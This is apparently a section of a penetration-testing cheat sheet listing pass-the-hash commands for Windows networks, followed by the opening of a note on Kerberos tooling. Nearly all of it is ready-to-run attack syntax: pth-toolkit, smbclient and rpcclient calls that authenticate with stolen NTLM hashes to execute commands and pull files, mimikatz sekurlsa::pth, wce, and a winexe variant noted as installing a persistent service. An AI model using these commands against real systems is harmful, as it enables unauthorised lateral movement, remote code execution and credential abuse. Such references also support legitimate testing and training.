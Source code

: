<br>

* [***pth tookit***](https://github.com/byt3bl33d3r/pth-toolkit) (kali linux preinstalled) - e.g. `export LD_PRELOAD="${LD_PRELOAD:+$LD_PRELOAD }/usr/lib/passing-the-hash/pth-samba.so"`, etc. tricks
    <br> all this tools exists in not pass-the-hash variant

    * `pth-wmic -U 'domain/username%lm:nt' //10.0.0.2 cmd.exe`
        <br> wmic - for *"select"* requests
    * `pth-wmis -U 'domain/username%lm:nt' //10.0.0.2 'cmd.exe /c dir c:\ > c:\windows\temp\output.txt'`
        <br> wmis - for command execution
    * `pth-winexe -U domain/username%lm:nt //10.0.0.2 cmd.exe`
        <br> works similar to psexec (loads file to *ADMIN$* share and installs *winexesvc* service (which is persistant))
    * `pth-smbclient -U username%lm:nt //10.0.0.2/aaa`
    * `pth-smbget -U 'domain/username%lm:nt' smb://10.0.0.2/c$/windows/system32/drivers/etc/hosts`
        <br> `pth-smbget -w domain -U username%lm:nt smb://10.0.0.2/c$/windows/system32/drivers/etc/hosts`
    * `pth-rpcclient -U 'domain/username%lm:nt' //10.0.0.2 cmd.exe`
    * `pth-net rpc info -I 10.0.0.2 -U 'domain/username%lm:nt'`
    * `pth-sqsh -D[DATABASE_NAME] -S[HOST] -U[SERVER_INSTANCE]\\[USERNAME] -mpretty` - interactive database shell

* ***other linux tools***

    * `smbcacls --pw-nt-hash --user=domain\\username%ntlm '//10.0.0.2/aaa' ''`
    * `rpcclient --pw-nt-hash -U username%ntlm 10.0.0.2`
    * `smbclient -U username -W domain --pw-nt-hash '\\10.0.0.2\C$' ntlm` - does `--pw-nt-hash` work properly?
    * `smbclient -W domain -U username%ntlm --pw-nt-hash '\\10.0.0.2\C$' -c 'get "aaa.txt"` - does `--pw-nt-hash` work properly?
    * `curl --ntlm -u username:ntlm http://example.com/Pages/Default.aspx`
    * `net`

* other pro tools:

    * ***mimikatz***: `privilege::debug` `sekurlsa::pth /user:username /domain:domain /ntlm:ntlm /run:"mstsc /restrictedadmin /v:10.0.0.21"`
    * [patched smbmount](http://www.defenceindepth.net/2009/08/pass-hash-attack-with-backtrack-4.html) (works only for old kernels)
        <br> `export SMBHASH="lm:nt" && ./smbmount //10.0.0.2/aaa /mnt/target -o username=username`
    * wce: `wce.exe -s username:domain:lm:nt -c cmd.exe`

<br>

---

### **Kerberos utilities**

In order to avoid stupid problems:

* Do ***NOT*** use IP address while relying on Kerberos authentication, use DNS/nbtns/llmnr addresses.
* Use ***full*** domain name (not only last suffix).

#### setting up Kerberos environment
